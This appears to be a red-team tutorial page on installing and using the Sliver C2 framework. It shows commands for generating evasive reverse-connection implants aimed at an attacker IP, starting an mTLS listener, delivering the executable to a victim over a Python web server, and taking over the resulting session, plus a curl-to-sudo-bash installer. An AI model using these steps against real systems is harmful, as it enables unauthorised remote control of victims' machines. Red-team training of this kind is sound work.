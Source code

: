 # Sliver

[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)

## Installing

It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system.

### Pre-reqs

```bash
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

## Running

This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.

### Install on system

```bash
curl https://sliver.sh/install | sudo bash
```

Run it

```bash
sliver
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Standalone release

```bash
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Unzip the file

```bash
unzip sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Make it executable

```bash
chmod +x sliver-server
```

run it

```bash
sudo ./sliver-server
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Usage

### Making a payload

to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.

```bash
generate -m (attacker ip) -e
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

The executable file will be in the folder where sliver was run.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

#### Making .dll payload

```bash
generate —mtls (attacker ip) —format shared —skip-symbols
```

### Starting The MTLS Listener

The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.

```bash
mtls
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.

```bash
python3 -m http.server 8008
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

When the server is being accessed and a file is being downloaded

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

On the victim machine go to the webserver and click on the file you want to download

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Once it is executed, we should see the connection from the sliver terminal.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We can also check on active sessions or alive sessions with `sessions`

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Connect to the session

```bash
sessions -i (session id)
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Run whatever commands you may need/want:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
